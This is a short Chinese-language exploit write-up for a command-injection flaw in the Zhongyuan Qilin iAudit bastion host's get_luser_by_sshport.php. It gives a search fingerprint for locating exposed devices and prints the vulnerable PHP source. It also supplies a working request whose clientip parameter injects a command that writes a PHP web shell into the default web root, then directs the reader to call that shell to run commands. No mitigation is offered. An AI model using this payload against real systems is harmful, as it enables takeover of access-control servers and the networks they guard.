

# 中远麒麟 iAudit堡垒机 get_luser_by_sshport.php 远程命令执行漏洞

## 漏洞描述

中远麒麟 iAudit堡垒机 get_luser_by_sshport.php文件存在命令拼接，攻击者通过漏洞可获取服务器权限

## 漏洞影响

```
中远麒麟 iAudit堡垒机
```

## 网络测绘

```
cert.subject="Baolei"
```

## 漏洞复现

登录页面如下


出现漏洞的文件为 get_luser_by_sshport.php

```
<?php
define('CAN_RUN', 1);
require_once('include/global.func.php');
require_once('include/db_connect.inc.php');
if(empty($_GET['clientip'])){
	echo 'no host';
	return;
}
if(empty($_GET['clientport'])){
	echo 'no port';
	return;
}
$cmd = 'sudo perl test.pl '.$_GET['clientip'].' '.$_GET['clientport'];
exec($cmd, $o, $r);
 $sql = "SELECT luser FROM sessions WHERE addr='".$_GET['clientip']."' and pid='".$o[0]."' order by sid desc limit 1";
$rs = mysql_query($sql);
$row = mysql_fetch_array($rs);
echo $row['luser'];
?>
```

其中 clientip存在命令拼接 使用 ; 分割命令就可以执行任意命令

Web目录默认为 `/opt/freesvr/web/htdocs/freesvr/audit/`

发送Payload

```
https://xxx.xxx.xxx.xxx/get_luser_by_sshport.php?clientip=1;echo+%27%3C?php%20var_dump(shell_exec($_GET[cmd]));?%3E%27%3E/opt/freesvr/web/htdocs/freesvr/audit/test.php;&clientport=1
```



再访问写入的文件执行命令

